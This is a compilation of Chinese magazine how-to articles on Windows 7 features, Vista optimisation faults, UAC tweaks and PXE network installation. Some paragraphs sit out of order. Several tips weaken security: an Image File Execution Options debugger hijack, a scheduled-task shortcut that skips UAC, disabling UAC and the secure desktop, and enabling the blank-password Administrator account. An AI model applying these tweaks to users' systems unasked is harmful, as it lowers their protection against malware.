Windows7中很多软件都改变了模样，最引人注目的莫过于几个内置的软件界面变成Office2007所使用的Ribbon界面。Ribbon界面其实很养眼的，不仅仅Office2007使用了这个界面，也有其他软件例如O&O Defrag 11也使用了类似的界面，可以看得出来未来Ribbon或者类似Ribbon的界面将会成为软件的标配。

#### 小提示：Ribbon界面

Ribbon，一个收藏了命令按钮和图标的面板。它把命令组织成一组“标签”，每一组包含了相关的命令。每一个应用程序都有一个不同的标签组，展示了程序所提供的功能。这种界面广为人知正是因为它集成在了Office2007中；以Office2007为例，说明一下Ribbon界面。

习惯，但是用了一段时间后反倒觉得这种界面更好用。这种界面不但简洁、高效，如果使用了触摸屏那么这种界面无疑操作效率会更高！

Windows7还增加了几个很实用的功能；例如窗口、菜单的体贴设计，任务栏在Windows7中也只是显示了图标，这样的大改革用起来方便多了。

### 计算器的移植

在Windows7的体验文章中想必大家都看到了；Windows7的计算器非常强大，除了以往的“科学计算”功能外，还添加了方便程序员使用的“Programmer”模式、方便统计的“statistic”模式，甚至单位换算功能也集成进来了。结果显示框也比以前大了不少，自然字体也变大了，用起来很爽。自从看到这个东西，很多人都想把它弄到Vista/XP中，终于有人放出了修改版本，可以用来替换Vista中的计算器。

Office2007的功能区（Ribbon）由不同的内容组成，包括对话框、库、一些熟悉的工具栏按钮。在每个Office应用程序中，Ribbon有不同的内容，但都位于应用程序顶部且由类似的组件组成。对于习惯老界面的Office用户来说，Office2007做出的界面改变带来了一些不便。

由于有几个函数XP不支持，所以这个计算器目前还没有办法在XP中使用。而且由于同样的关系以及Windows7预测试版做出的一些限制所以目前也不是所有的程序都能提取并用于Vista中。不过随着时间的推移，网络上肯定会出现更多移植出来的程序，到时候只需要按照本文提出的方法进行替换就可以了。

替换的方法参照第一部分替换几个系统文件的方法，修改权限之后方可进行替换。如果要使用英文原版的计算器，那么用calc.exe替换C:\windows\system32目录下的对应文件（C为系统盘）；然后把calc.exe.mui放到C:\Windows\System32\en-US。如果使用的是汉化版的计算器，则要把对应汉化版的mui文件放到C:\Windows\System32\zh-CN文件夹下面。如果是64位的系统，除了替换system32文件夹中的相关文件之外，还要在C:\Windows\SysWOW64中替换一次。

顺带提一下，mui文件就是对应程序的“语言包”，所以默认英文的程序才放在“En-Us”（美国英语）文件夹下面，而中文则放在“Zh-CN”文件夹下面。32位的Vista中，有部分用户反映直接用Windows7的原版计算器就可以使用，有的则说需要使用修改版的计算器文件；但是如果是64位系统则必须用修改版的计算器，可以使用32位的修改版计算器，不一定非要强求64位的。

### 方便好用的写字板

Windows7原生的写字板暂时还弄不出来，但是可以用一些其他的程序来替代，风格也是类似于Windows7风格的，大家可以使用Wordpad Styled Notepad来替代写字板。

因为不是原生的写字板，所以还是不要直接替换原版的文件了。我这里介绍一个镜像劫持的方法，使这个程序“映射”为系统的写字板。镜像劫持技术之前主要是病毒、木马等恶意程序在使用，其实“民用”也挺好的；提到这个是因为有的安全软件比较敏感，可能会根据这个提示系统异常，其实只要是你自己修改的就不用担心。

方法：开始菜单的搜索框中输入regedit并回车。定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options]，新建一个项名称为：wordpad.exe，在右边窗口中建立一个字符串值，名称为Debugger，值为Wordpad Styled Notepad的具体路径，例如你把程序解压缩并放在D盘根目录就是D:\Notepad_2008_by_Solo_DevNotepad 2008.exe。

接下来到开始菜单附件中运行“写字板”看看，是不是不一样了呢？

### Aero Snap和Aero Shake

Windows7有两个好玩的功能，其中一个是Aero snap，它的功能是把一个窗口拖到一个角落马上就能粘在那里，还可以实现上下的最大化（见图8）；如果把窗口拖放到顶部，则可以实现最大化。这个功能其实还是挺好用的。


有老外专门作了一个程序来给XP、Vista添加这个功能，它的网站是http://www.aerosnap.de.vu/。XP要使用这个软件必须要先安装.Net Framework 2.0或是更高版本，安装完毕之后，才能用Aero snap。

而另一个功能就是Aero Shake了。现在大家开电脑都喜欢开很多窗口，有时候想在桌面上面保留一个窗口而将其他窗口最小化的时候，会不会有的人一个一个点击最小化呢？其实如果使用了Aero Shake，只需要用鼠标选中当前窗口，再晃动一下其他窗口就最小化了；如果需要还原，再晃一次即可。这个功能可以当做一个简单的老板键用哦。

同样的，也有人给XP、Vista做了类似的程序，只需要安装即可。

### 第四部分：性能优化

Windows7从目前的情况来看确实比Vista在资源占用方面有一定的优势。PDC上面还出现了跑Windows7的EEE PC，据说速度还可以；如果跑的是Vista显然有点够累。

#### 减少系统服务，减轻系统负担

换轻量级的杀毒软件，例如Nod32对系统资源占用就比较少。如果你对系统足够了解，那么安装一个例如SSM的HIPS软件或者干脆只依靠Vista本身的UAC功能都已经有足够抵挡病毒的能力了。为了确保安全，可以隔一段时间用Autoruns、SREng等软件做一个检查。重申一下：不用杀毒软件的方案的前提是你对系统足够了解，头上没有“小菜鸟”的帽子。

系统优化部分想必大家也在报纸上看过很多次了，这里只是简单提一下：

- 1. 关闭不必要的服务。
- 2. 在计算机图标那里（XP中“我的电脑”）点击右键“属性→高级系统设置→高级→性能设置→视觉效果”中关闭一部分特效。
- 3. 借助第三方优化程序例如Vista优化大师、ooVista进行系统优化。

小知识：Win7的行为中心
Windows7去掉了最初随Windows XP SP2推出的安全中心(Security Center)，改用行为中心(Action Center)。这里面包含安全中心，问题、报告与解决方案；WindowsDefender，WindowsUpdate，Diagnostics，网络访问保护，备份与回复(BackupandRestore)，复原(Recovery)，以及上面提到的UAC。在进入行为中心后，Windows 7支持用WindowsDefender快速扫描本地电脑。

## 优化Vista 岂能有故障？

故障这个东西虽然每个人都不喜欢，但不得不承认的是，它是使用电脑过程中的一部分。当问题出现的时候，只能用另外一种方法和方式把它解决，最常用的方法就是“优化”。各种优化工具，网上会提供很多的资源，但这并不代表优化过后就万事大吉了。是一个接着一个的，优化后也会带来很多的新问题。Vista中常见的优化后的无非就那么几个，一起来看看。

## 优化软件的优缺点

优化软件中有“傻瓜式”的自动优化，也有针对系统某个方面更改的“高级模式”。这类软件有其好的一面也有坏的一面，对电脑不太熟悉的朋友拿到软件后就直接用最简单的自动优化，但软件不是十分聪明，往往可能会将一些不该删的删掉。因此，优化软件在解决问题的同时也对系统带来一些并发症。

### 故障1：给系统减肥，U盘不能识别

> 小提示
WIM是英文Microsoft Windows Imaging Format的简称，它是Windows 基于文件的映像格式。WIM 映像格式并非现在相当常见的基于扇区的映像格式，它是基于文件的。Windows Vista 采用这种格式在新计算机上进行快速安装。WIM 文件存储一个或多个操作系统（如 Windows Vista 或 Windows PE）的副本（称为映像）。使用 WIM 文件维护操作系统很容易，因为您可以在未启动操作系统的情况下，离线添加和删除驱动程序、更新内容以及 Windows 组件。

难度系数：C指数6.0

产生原因：优化软件为系统减肥的方法都是那几种，关闭不必要的服务，删除不常用的驱动程序等等。在早期，很多朋友使用“Vista优化大师2007”对Vista系统进行减肥（新版本已经修复这个BUG），减肥的过程中，优化软件就误将系统中的所有备份驱动程序删除，从而导致连最基本的U盘驱动也没有了。所以每次插入U盘的时候都要安装驱动，变得非常麻烦。

解决方法：首先我们准备一张Vista安装光盘，另外还有一个用作提取安装盘中系统文件的工具——Wimtool（见图1）。下面的所有操作都可以在Vista下进行，先把系统光盘放进光驱，然后启动Wimtool，进去之后点击“挂载和解开”标签，然后点击“选择要挂载或解开的Wim文件”旁的“浏览”按钮，选择安装光盘里“sources”文件夹下的“install.wim”文件。接着点击“选择挂载或解开的目标文件夹”旁的“浏览”按钮，选择要挂载的一个文件夹。

选好以后点击“挂载映像”，挂载成功后会自动弹出被挂载的文件夹，然后将里面的“Windows\System32\DriverStore\FileRepository”这个文件夹复制到本机系统盘内“Windows\System32\DriverStore”即可。



### 故障2：增加连接数后，系统启动失败

> 小提示
如果Vista安装在SATA或者SCSI硬盘中的话，就需要点击“系统恢复选项”窗口中的“加载驱动程序”按钮，手动加载相关驱动程序才能进行下一步操作。

难度系数：C指数8.0

产生原因：在Vista中，系统为了防范各种蠕虫病毒的传播和攻击，限制了TCPIP并发连接数，很多人觉得在Vista里用BT下载比XP慢，所以就使用优化软件或者BT软件自带的修改TCPIP功能对系统并发连接数进行修改。Vista中对TCPIP并发连接数控制是通过“c:\windows\system32\drivers\Tcpip.sys”这个文件来实现的。在Vista中，Tcpip.sys是属于驱动型的配置文件，修改它以后，系统会认为系统硬件配置发生了变化，因此就有可能导致系统启动失败。

#### 方法一：用系统光盘恢复

插入Vista的安装光盘，并以光盘启动，进入安装画面后选择右下角的“系统恢复选项”。选择语言后点击下一步。系统这时候会搜索系统中安装过哪些WINDOWS操作系统，并显示其分区和分区容量大小。
接着就可以选择恢复工具，选择“启动修复”，然后系统就会自动进行修复，正常的话，重新启动电脑后就能进入系统。

#### 方法二：替换法修复

这方法需要使用WIN PE启动电脑，使用PE来进行系统文件替换非常简单（见图2），一切操作都在图形界面上进行。先在其他装有Vista并能正常工作的电脑中将Tcpip.sys文件COPY到你的电脑上（PE系统支持U盘），然后覆盖到你的系统文件夹内替换原文件即可（C:\Windows\System32\drivers）。



> **小提示**
WinPE是Windows PreInstallation Environment的缩写，直接从字面上翻译就是“Windows预安装环境”，它包括运行Windows安装程序及脚本、连接网络共享、自动化基本过程以及执行硬件验证所需的最小功能。

难度系数：C指数8.5

产生原因：因为Vista系统里默认的关机键是让电脑进入混合睡眠状态，因为不同于XP里面的使用习惯，并且在台式机上很少用到混合睡眠或者休眠状态，所以很多优化软件都会在自动优化里，把默认的关机键改成关机，并取消了混合睡眠功能。

### 故障3：混合睡眠功能消失

相对于笔记本电脑来说，这个功能是非常有用的，笔记本电脑大多数时间都是使用电池供电，如果没了这个混合睡眠功能，笔记本长期在全速运行，电池就会很快用完（见图3）。

解决方法：解决这个问题很简单，只需要手动在电源选项里重新打开这个设置就可以了。进入“控制面板→系统和维护”，然后打开“电源选项”。在“选择电源计划”页面上，单击选择正在使用的计划下的“更改计划设置”，进入后单击“更改高级电源设置”。在中间的菜单中展开“睡眠”，然后再展开“允许混合睡眠”，点击“允许混合睡眠”下的“设置”，选择“打开”，然后再按“确定”返回，这样就成功启动混合睡眠功能了（见图4）。


> **小提示**
混合睡眠是另外一种新的节能功能，主要是为台式机而设计。混合睡眠可将任何打开的文档和程序保存到内存和硬盘，然后使计算机进入低功耗状态。



### 故障4：优化系统后安装补丁失败

难度系数：C指数7.0

产生原因：使用优化软件优化Vista的系统服务后，我们再手动用其他软件下载补丁安装，某些系统补丁安装的时候出现“安装程序遇到错误 0x80070422”的提示，并且无法安装补丁因为某些系统补丁需要连接到网上进行验证后才可以正常安装，关闭此服务后系统无法连接到Windows Update服务器，从而安装失败。



解决方法：我们重新把Windows Update服务打开就可以了，单击“开始”，单击“所有程序”，然后单击“Windows Update”，再点击“更改设置”，点击“自动安装更新(推荐)”，在“推荐更新”下，单击以选中“下载、安装或通知更新时包括推荐的更新”复选框，然后单击“确定”。这样自动更新服务就可以打开了（见图5）。

> **小提示**
如果你不想系统自动下载更新，而用其他软件下载更新的话，请选择“检查更新，但是让我选择是否下载和安装更新”一项即可。

使用优化软件来关闭一些不常用的功能，这确实对系统的运行速度有一定提升，但需要用户具有一定的系统知识，明白你要关闭的是哪些服务，这些服务是有什么作用的，在不知情的情况下切勿随便关闭系统服务。另外，在涉及到注册表方便的优化，一定要在动手前备份好当前的注册表，给自己留一颗“后悔药”，最重要的是自己需要了解多一些系统知识。

## Windows 7自带医生，跟看病花钱说不

作为微软投入很大精力的下一代的操作系统，Windows 7从系统底层就有了强大的变革，并且在系统中新增了很多实用的系统辅助工具。对很多电脑新手来说，可利用这些内置的工具自己解决一些常见的故障；对于电脑高手来说，通过这些工具能让自己的电脑更加安全。Windows 7的辅助工具能解决哪些问题呢？一起来看一下吧！

### 医大一：我的程序你别动

别人使用自己的电脑时，在系统盘胡乱安装一些未知程序是导致系统故障的原因之一。在以前的系统中可以通过用户权限来控制一些用户的操作，可是这样并不会对这些用户进行彻底的控制。现在使用“AppLocker”（程序锁定）功能就能轻松解决问题，这个家伙到底有何医术呢？

如果想控制某个用户不能在C盘乱装软件，首先在“开始→运行”中键入“GPEDIT.MSC”，打开组策略编辑器。在此依次展开“计算机配置→Windows设置→安全设置→应用程序控制策略→AppLocker”分支，打开规则创建向导（见图1），在权限项中选择“拒绝”，选择拒绝的用户。随后单击“下一步”按钮在“条件”项中，点选“路径”，接着在路径项下输入“C盘”即可，随后按照提示向导的提示一步步创建好规则。创建后，按照此方法，还可以根据某些需要创建可执行文件规则、脚本规则等。



在组策略中单击“AppLocker”，随后在右侧的“AppLocker”界面，单击“配置规则强制”，打开规则设置对话框，在此将“Windows Installer规则”选择为“实施规则”，确定后即可生效，以后被设置好规则的程序或文件夹只能允许的用户才能使用。这样其他用户再也不会在我们电脑中乱装软件了。如果限制某些用户允许某些程序，可以将“可执行文件规则”、“脚本规则”都设置为“实施规则”即可（见图2）。



### 医大二：保护磁盘

系统自带的还原软件，大多都是把整个系统全部还原。之前保存的文件都会随之消失。现在Windows 7提供了一个“PC卫士”功能，这个功能可以对系统中的某个用户进行防护，这样该用户在防护状态下可以随时进行任何操作，在下次启动后都会被清除，起到了系统保护的作用。

启用系统还原时，首先为受保护的用户创建一个用户账户，随后登录管理员用户，在“控制面板”中双击“用户账户和家庭安全→用户账户→管理其他账户”，在此选择受保护的用户，进入到账户管理界面，在此单击“设置PC防护”，在打开的“PC防护”界面中单击“启用PC卫士”，随后单击“应用”按钮即可。默认情况下，程序对整个磁盘进行保护，如果只想对某个磁盘分区进行保护，在“设置PC防护”界面中单击“锁定磁盘驱动器”，打开一个“锁定磁盘驱动器列表”，在此选择不被保护的磁盘分区后，单击“解锁”按钮，这样该分区就不会被保护，不受保护的分区可以添加或删除文件（见图3）。

通过上面的设置，以后在受保护的用户或者磁盘中安装或删除了文件后，下次启动之后就会被还原到安装或删除状态之前，有效地保护了系统。



通过上面的设置，以后在受保护的用户或者磁盘中安装或删除了文件后，下次启动之后就会被还原到安装或删除状态之前，有效地保护了系统。

### 医大三：录制故障

系统难免会出问题，在身边没有高手能帮自己，通过QQ，电话向高手求救时，说不清楚自己到底遇到了什么问题才是最痛苦的。Windows 7中新增的“问题反馈录像机”工具，无需安装其他截屏、视频录制软件。就可以把问题“录制”下来，发送给高手查看。

在“开始→运行”中键入“psr.exe”，就可以打开“Problem Steps Recorder”（问题反馈录像机）录制工具条界面在该界面中单击“Start Record”（开始录制)按钮，此时“问题反馈录像机”处于录制状态，这时重新操作出现问题的程序，这时“问题反馈录像机”可用随时监视我们屏幕上的鼠标操作，在屏幕上每单击一次鼠标，“问题反馈录像机”会自动对当前屏幕进行截屏操作，并添加相应的注释。

屏幕信息录制完成后，单击“Stop Record”即可终止本次录制的信息。录制完毕后会弹出一个保存对话框，在此可以将录制文件保存为zip压缩包。录制的文件并不是视频文件，而是一个MHTML报告文件。打开该文件，可以看到在屏幕上的每一步操作都进行了截图，并高亮显示鼠标点击区域，并支持以幻灯片的方式查看，这样让人一看就清楚到底出了什么问题。

#### 实用还原

在Windows之前的版本中，系统还原功能几乎就是鸡肋，很少有人去用，还原的效果也不是很好。在Windows 7中，系统增强了系统还原功能，而且Windows 7中系统还原可以对单个文件进行恢复，效果也非常好。

开启Windows 7系统还原的步骤和之前的系统基本相同。右键单击“计算机”，在弹出的右键菜单中选择“属性”，打开“系统设置”窗口，单击“系统保护”，打开“系统保护”对话框就可以进行操作。不一样的是提供了

“系统还原设置和以前版本的文件”和“仅还原以前版本的文件”两种方式，创建一个还原点就可以开始进行系统备份。还集成了一个“扫描受影响的应用程序”，单击还原界面中的“Scan for affected program”，Windows就会对系统进行扫描找出哪些应用程序受到影响，通过选择还原点进行删除或者是修复。

此外，Windows 7系统中的还原功能提供了一个单个文件或文件夹还原功能。如果你的系统中某个文件被破坏，又不想对其他文件进行恢复，可以使用单个文件或文件夹的还原功能。首先在系统中需要还原的文件或文件夹上单击

右键，选择“还原以前版本”，此时程序打开创建的还原点中的相对应的文件或文件夹，选中某个需要还原的文件或文件夹后(见图4)，单击“打开”即可打开还原点中的文件夹，在此可以查看该文件夹中的信息。还原时，单击“复制”按钮，将其复制到指定的目录下覆盖当前的文件即可。



#### 自动答疑

其实Windows中的很多故障只是一个很简单的小问题，但是对于电脑新手来说也是一个难题。现在Windows 7中集成了一个“解决疑难问题解答包”功能，通过它，不用求助他人，通过向导的方式帮你解决系统中存在的某些简单问题。

在“控制面板→查找并解决问题”，打开“疑难解答”对话框，在此单击“查看全部”，在此程序按照类别对系统中的程序进行分类，如果发现某个程序出现问题，如：Windows Media Player程序。在该窗口中单击该程序，打开一个修复向导，系统开始对该程序进行检查，发现问题后，弹出一个修复窗口，在此单击“Apply this fix”，系统就开始对该程序进行修复。如果默认状态无法对该问题进行修复，单击“skip this fix”（跳过这个修复）命令，打开修复选项窗口，在该窗口中程序显示出找到的问题及问题产生的原因，随后单击“Explore additional options”选项，打开多种解决问题的方案，在此我们可以根据需要选择修复方法。非常简单的向导式操作，相信你一定会使用（见图5）。



### Win7的IE8中解决淘宝支付宝插件证书问题

在使用IE8（Win7捆绑浏览器）会出现错误，提示“800A138F”。解决这个问题，进入管理员administrator账户，使用步骤：解压并运行软件80070057 solution by spabwe即可完成全部操作。特别强调的是：解决80070057问题，首先一定要进入管理员administrator下。打开管理员administrator的方法：点击“开始”菜单-->右键点击“计算机-->管理-->本地用户和组-->用户”，右击“administrator账户”选择“属性”，把“账户已禁用”前面的钩取消，切换到用户“administrator”。

### 跨列居中更好用

文/山东 张佳军

在Excel表格中往往有需要居中的部分，比如表头、分类以及子类等。通常我们使用的方法是选中需要居中的单元格，再单击工具栏中的“合并及居中”按钮，将选定的单元格合并到一起，并居中排列。 虽然这种方法可以实现居中排列的目的，但往往会为后续操作（比如，排序、复制粘贴等）带来诸多不便。其实，有一个更加好用的方法，即便没有合并单元格也可以达到居中排列的目的。首先，选中需要居中排列的所有单元格，然后在右键菜单中单击“设置单元格格式”命令（或者执行“格式→单元格”菜单命令），弹出“单元格格式”对话框。单击选择“对齐”选项卡，在“水平对齐”下拉列表中选择“跨列居中”选项（见图），再单击“确定”按钮即可。



通过这种方法只是实现了居中排列，而没有合并选定的单元格，因而整个工作表的结构没有改变，以后无论怎么操作都不受合并单元格的影响。

## 保障安全，兼顾方便——调教让你烦恼的UAC

Vista里面最惹人烦的东西是啥？就是UAC，相对于XP来说Vista为了安全引入了这个功能，但是无论安装软件还是修改系统设置，基本上都会触发UAC提示。本来这个功能对用来提高系统安全性很有帮助，但是它设计不完善，好心办了坏事让用户感到非常烦躁，这个功能就显得很鸡肋了。有没有办法能够调教UAC让它更适合用户使用呢？既可以提高安全性，用起来又不觉得心烦。

### UAC是啥？

UAC的含义是用户账户控制。在vista之前的Windows中，我们使用默认的账户就拥有最高的权限，所执行的任务也是以最高权限运行的。这样一来，如果所执行的程序具有恶意就会造成相当大的破坏。UAC的出现就是为了改善这个情况。只要你使用的用户不是administrator，那么即使你是管理员组的用户运行可能会修改系统设置的程序的时候都要求进行确认，可以说UAC的本意是好的，可以极大提高系统的安全性。这点其实和XP下使用普通权限用户操作系统有些类似。

### UAC为何令人厌烦

但是由于Windows的应用程序沿袭之前的设计思路，有的软件需要读取关键的注册表项，也就变相要求以高权限身份运行，所以导致了部分程序无法在Vista下面运行，或者必须要关闭UAC或者以管理员身份运行才行。一方面UAC设计还不完善，另一方面不适应新情况的老程序很多，两者综合在一起就造成了UAC极为烦人的假象。不过可以预见，随着未来适应Vista新环境程序的增多，这种情况将会有很大的改善。例如微软提供的autoruns软件默认情况下就不会触发UAC提示，只有在选项中选择以管理员身份运行才会有UAC的提示。

虽然Windows7依然保留有UAC功能，但是从测试版的表现来看，Windows7在UAC方面将会有很大的改善，不会那么烦人了。或许Vista SP2正式版也会在这方面有所改进。

### Linux其实早已有类似的功能

#### ubuntu也会要求输入密码

其实Linux的桌面发行版Ubuntu默认情况下也不是用最高权限运行的。最高权限的root用户和Vista的administrator一样，都是不能直接使用的。Ubuntu下面需要使用高权的时候，将会要求密码确认，例如以sudo调用管理员权限操作的时候就需要在终端窗口中输入密码。



Ubuntu需要输入密码，而Vista只需要点击一下鼠标进行确认，看上去似乎Vista更好些。但是Ubuntu下面需要触发密码提示的场合没有Vista这么广泛；而且Linux使用这种策略比Vista要早，用户量也不大所以没有UAC那么多的抱怨声。

### 直接关闭UAC

#### Part1 最简单的方法：直接关闭 UAC

如果实在受不了UAC，那么最简单的方法就是关闭UAC了，UAC可以直接在控制面板中关闭。依次打开开始菜单→控制面板→切换到“经典视图”→用户账户→打开或关闭“用户账号控制”→去掉“使用用户账户控制（UAC）保护您的计算机”前面的钩，点击“确认”。系统提示需要重启，重启之后UAC功能就关闭了。

关闭UAC后自然也就没有任何提示了，但从安全的角度来看，这样做显然降低了Vista的安全性。我觉得直接关掉UAC，牺牲安全性划不来，尤其是在现在恶意程序泛滥的大环境下。缺少了安全改善的Vista就失去了相对XP的一大优势，升级到Vista意义就不大了。而且据网友反馈，开启了UAC之后确实中毒的机会非常低。

### 对管理员使用安静模式

#### Part2 使用管理员身份时可忽略UAC说明

如果我们开启了UAC，而且平时使用普通权限的用户，需要的时候才使用管理员组的用户，那么我们可以使用一个叫做TweakUAC的小软件来实现这个要求。软件官方下载：http://www.tweak-uac.com/TweakUAC.exe。运行这个软件，可以看到一共有3个选项，依次是：关闭UAC、切换UAC至安静模式、使用Vista默认的UAC设置。我们选择Switch UAC to the quiet mode（切换UAC至安静模式）就符合我们的要求了。



这样一来，登录的时候就可以使用Administrator用户了，默认密码是空值，如果打算长期打开这个用户，建议设置一个强壮的密码。

## 启用Administrator

其实也可以在用户管理中直接启用Administrator，使用这个用户操作不会有任何UAC提示。开启方法为：

- Step1 桌面计算机图标（或者开始菜单的“计算机”）那里点击右键→管理；
- Step2 依次展开系统工具→本地用户和组→用户，找到Administrator→点击右键选择“属性”→去掉“帐户已禁用”前面的钩。



## 选择一个计划任务程序

## Part3 创建一个不需要UAC确认的快捷方式

如果某几个程序会触发UAC提示，而且它使用频率很高，那么使用起来每天遭受UAC的摧残也挺可怜的，有没有办法绕过UAC提示呢？一般的方法是没有的，要不UAC不就是形如虚设了吗？

不过微软却给我们留了一条路子，用计划任务来运行任务不需要UAC提示。

提示：以下操作过程需要管理员权限。

- Step1 运行开始菜单→附件→系统工具→计划任务程序。
- Step2 点击“操作”菜单→创建任务。
- Step3 给这个任务取个名称，依自己爱好设置。选择“只在用户登录时运行”和“以最高权限运行”。
- Step4 切换到“操作”选项卡，点击“新建→操作”选择“启动程序”，然后点击“浏览”选择一个程序。



- Step5 新建一个快捷方式，指向：schtasks /run /tn “任务名称”，例如上面我取的计划任务名称是“ddd”那么这里就写：schtasks /run /tn "ddd"。快捷方式的名称可以随意取，可以在快捷方式属性中修改图标的快捷方式。

需要运行程序的时候，双击快捷方式即可，很方便吧？没有UAC提示哦。

## 组策略调教UAC

## Part4 设置组策略优化UAC

UAC可以使用组策略进行细微的调整，这里举个比较实用的例子：触发UAC的时候不出现黑屏，可以继续操作。

- Step1 在开始菜单的搜索框中输入gpedit.msc并回车，打开组策略编辑器。
- Step2 依次展开“计算机配置→Windows设置→安全设置→本地策略→安全选项”。
- Step3 在右边窗口中看到一堆“用户账户控制”开头的策略，可以根据自己需要进行调整。项目本身说得也比较详细了，如果实在不明白，双击这个项目点击“说明”选项卡即可看到详细的说明。

在这里，我们把“用户账户控制：提示提升时切换到安全桌面”设置为“已禁用”，那么在触发UAC提示的时候将不会出现黑屏，也可以自由操作了。



## Part5 用第三方程序改善UAC

前段时间诺顿出了一个改善UAC应用的小软件叫做：Norton UAC Tool，诺顿和微软走得很近，做出的软件兼容性还是相当不错的。

这个软件可以在诺顿的主页下载：http://www.nortonlabs.com/inthelab/uac.php

下载之后双击它进行安装。安装只有一个选项，保持默认的选择状态即可。

双击运行之后看到的界面和Vista本身的UAC界面并不一样：

- 区域1：点击View Details可以查看这个可执行文件的路径。
- 区域2：文件数字签名的状况和显示文件是否在受到保护的目录中。
- 区域3：勾选此项，以后运行这个程序不再触发UAC提示。



## 小结

本文的目的就是在保证一定安全性的条件下尽可能减少UAC的提示，让Vista的用户在体验和安全之间得到一个平衡。Vista纵然有很多不足，但是没有哪个操作系统是真正完美的，在Windows7发布前，是尝鲜的时候了。

## 不用U盘 一条网线搞定上网本系统

上网本在市场里出尽了风头，很多人在购买第二台电脑时选择了上网本。不过上网本都有一个共同的特点，就是不带光驱，而且相当一部分不预装Windows操作系统，装系统会带来很多麻烦。其实一条网线，就可以轻松搞定从分区到安装系统所有操作。

### 传统安装系统方法的弊端

也许有人会说用U盘引导系统最为方便。不过有过实战经验的人应该都会知道，U盘启动存在很多问题：

- 1.并非每个U盘都支持系统引导功能。
- 2.不同品牌电脑对U盘兼容性也各异，不能识别的问题经常出现。
- 3.DOS模式下对USB设备支持不佳，经常会遇到死机现象。
- 4.DOS程序对USB设备识别能力普遍低下，经常会出现不能识别现象。

### 网络安装系统的优势

通过网络安装操作系统，对于不少DIYer来说可能有点陌生。其实网络安装系统既不需要光驱媒介的支持，也不会产生像USB设备那样出现兼容问题，而且传输速度快、效率高，不需要另外购置设备即可进行。

基本思路：通过路由器DHCP功能为电脑分配IP，然后从服务器端连接客户机（需要安装系统的电脑），并传输网卡驱动程序，启动网卡后传输必要的DOS应用软件即可开始分区操作。最后通过Ghost Server软件传输系统安装文件或者备份文件，最终完成系统的安装。

### 已有完整系统备份，用GHO文件引导安装

准备工作：需要一台电脑A，一个路由器，两根网线，当然，还有待装系统的电脑B。软件方面需要两个，一个是Tftpd32另一个是Ghost Server，此外我们引导系统的Boot.pxe文件可以到家用网站下载，网址http://www.cbifamily.com/download/200907.html。

#### 1.配置软件

把两个软件安装在B电脑上，启动Tftpd32，选择DHCP Server页面（图1）。以笔者的电脑为例，局域网网段为192.168.1.X，那么可以在IP pool starting address填上这一网段内任一地址（如192.168.1.254），Size of pool填写1，Boot file则填写笔者预先做好的Boot.pxe。Default router地址与前面的IP pool starting address保持一致。然后点击上面的Browse按钮，选中引导文件所在文件夹然后单击“确定”，接着点击下面的Show Dir按钮就可以找到Boot.pxe文件，选中并确定即可。保存后Tftpd32软件会自动开始监听网络状态，服务器端就准备好了。

> 小贴士
> 这里要注意的是，IP pool starting address一定要和Server interfaces在同一个网段，5EFA协议把IP地址取在最后几个地址段，例如254。其余的选项不需要修改。

#### 2.配置笔记本电脑BIOS

进入笔记本电脑BIOS，把启动顺序调整为网络启动优先Network boot first（本文以东芝本本为例，不同型号本本网络启动名称可能不一样），保存并退出。重启后，电脑会首先检测网络，试图从网络获取IP地址，如果配置正确，Tftpd32主界面下方会马上检测出客户机，分配预先设置好的IP地址，并自动传输PXE引导文件。稍等片刻，如果在笔记本屏幕上看到引导界面，这表明引导成功了。

#### 3.引导系统

引导界面有三个选项，如果希望利用GHOST把系统直接还原到笔记本电脑上，那么就选择第一项“Boot with Net Ghost”网络克隆启动。如果新电脑还没进行分区，那么就需要选择第三项先进入纯DOS进行分区。这里我们需要安装系统，因此选择第一项。然后会进入第二项，我们使用的是PXE引导，因此选择第一个，单击Enter进入下一步（图2）。

这里软件会要求再次确认IP地址信息（图3），默认为自动获取IP，不需要理会，直接确认即可进入下一步（图4）。






#### 4.服务器端传输镜像文件

第3步完成后，马上就要开始进行网络克隆了。在服务器端启动Ghost Server软件，软件界面非常简单，在“会话名称”上键入一个英文名字（如abc），在右侧选择“恢复镜像”，然后单点下方“浏览”按钮找到需要还原的镜像文件。由于我们是选择单分区克隆，因此还要在“分区”中选中此镜像的分区信息，最后点击“接收客户机”，Ghost Server随即处于传输待命状态。

#### 5.开始网络克隆

在进行完第三步后，客户机屏幕上会出现网克选项，我们需要克隆C盘数据，因此需要选择第2项“单分区网络克隆”。在单分区克隆界面中，选择要克隆的分区，一般是C盘，键入C（注意必须为小写）。确认分区无误后，单击确认。此时服务器端Ghost Server软件下方会搜索到客户机地址，状态为“等待”，见到这个界面我们已经成功了一半了，点击“发送数据”，Ghost Server软件开始发送镜像，客户机自动启动GHOST，开始试图从网络中接收数据。稍等片刻，GHOST的克隆进度条开始往前滚动，克隆正式开始了！

由于网络传输速度快（起码10MB/S，千兆网会更加快）网络安装操作系统速度比一般的U盘以及光驱都要快得多，20分钟左右即可完成整个系统安装，本本就能正常使用了。

### 要想全新安装系统，选系统光盘镜像文件

上面的镜像安装法只能实现GHO镜像的克隆安装，而很多ISO镜像系统都未经过打包成GHO文件，安装这类系统镜像，我们可以通过以下方法实现。相关文件下载网址为http://www.cbifamily.com/download/200907.html。

#### 1.设置和传输引导文件

依照上文提示设置好Tftpd32程序，“Boot file”选择为“pxelinux.pxe”，并且“Current Directory”重新指向启动文件路径（图5）。



从网络引导笔记本电脑，Tftpd32软件会自动把相关文件传到笔记本电脑。传输的文件包括引导文件，以及实现实装ISO镜像的核心——Windows PE超精简系统。下载完毕后，屏幕上会显示“Load Ramdisk image”信息，系统开始自动加载系统，稍等片刻后即可进入非常熟悉的Windows PE界面。

#### 2.设置分区

这里要注意，PE系统下大多数Windows程序都是不能直接运行的，如果你的PE系统没有集成分区工具，也可以使用Windows自带的磁盘管理器进行分区。

> 小贴士：
>
> 网络克隆对大多数人来说接触比较少，在操作过程中要注意以下几点：
>
> - 1.必须保证两台机器在同一网段中。显然，跨网段的网络克隆不但速度慢，而且极容易出现很多不可预见的问题。
> - 2.若待装系统电脑中有数据，建议先进行备份，错误操作有可能导致磁盘数据损坏。
> - 3.为提高兼容性，建议使用Ghost 8.X版本制作GHO系统镜像。
> - 4.安装过程路由器数据交换量相当巨大，负载较重发热会直线上升，需注意散热。局域网内最好不要连接第三台电脑，避免干扰。

#### 3.传输ISO文件

